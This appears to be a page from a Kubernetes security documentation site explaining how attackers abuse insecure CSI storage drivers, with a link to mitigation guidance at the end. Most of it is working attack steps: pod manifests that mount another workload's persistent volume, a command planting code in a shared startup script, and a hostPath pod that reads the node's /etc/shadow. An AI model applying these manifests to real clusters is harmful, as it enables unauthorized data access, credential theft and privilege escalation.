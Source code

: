 ```yaml
---
sidebar_position: 15
title: "Insecure CSI Drivers"
description: "How attackers exploit insecure Container Storage Interface (CSI) drivers to gain unauthorized access to persistent volumes and sensitive data."
---
```


# Insecure CSI Drivers

**Container Storage Interface (CSI) drivers** enable Kubernetes to manage persistent storage across different backends. If **misconfigured** or **insecure**, CSI drivers can allow attackers to **escalate privileges, access sensitive data, or manipulate persistent storage volumes**.

---

## Exploitation Steps: Abusing Insecure CSI Drivers

An attacker exploits **misconfigured CSI drivers** to access or modify persistent volumes.

### Step 1: Identify Exposed CSI Drivers

The attacker lists available **CSI storage classes** to identify potential misconfigurations:

```bash
kubectl get storageclass
```

If a storage class allows **unauthenticated access** or lacks security controls, the attacker proceeds.

### Step 2: Attach Unauthorized Persistent Volumes

If **CSI drivers allow volume reattachment**, the attacker mounts an existing volume from another pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /data
          name: compromised-volume
  volumes:
    - name: compromised-volume
      persistentVolumeClaim:
        claimName: sensitive-data-pvc
```

```bash
kubectl apply -f attacker-pod.yaml
```

Now, the attacker has **unauthorized access** to sensitive data stored in the volume.

### Step 3: Exploit Weak Volume Policies

If a **CSI storage class** allows **ReadWriteMany (RWX) access**, an attacker can **modify shared storage** and introduce malicious payloads.

```bash
echo "Malicious code" >> /data/startup.sh
```

The next time a legitimate pod starts using this volume, the attacker's code **executes inside the target container**.

### Step 4: Abuse CSI Node Plugins for Host Access

Some **CSI drivers** run with **host-level privileges**, allowing attackers to execute commands directly on the node.

If a CSI plugin allows direct access to the node’s filesystem:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: csi-exploit-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["cat /host/etc/shadow"]
      volumeMounts:
        - mountPath: /host
          name: host-mount
  volumes:
    - name: host-mount
      hostPath:
        path: /
        type: Directory
```

Now, the attacker can **read and manipulate system files**.

### Result

The attacker successfully **accessed unauthorized data, modified storage volumes, or escalated privileges** through an insecure CSI driver.

---

## Mitigation Steps

To protect against **insecure CSI drivers**, follow the security best practices outlined in:

➡ **[Securing Kubernetes CSI Drivers](/docs/best_practices/cluster_setup_and_hardening/csi_driver_mitigation)**

This guide covers techniques such as **restricting volume attachments, enforcing PodSecurity policies, disabling privileged CSI plugins, and enabling RBAC controls** to secure storage operations in Kubernetes.
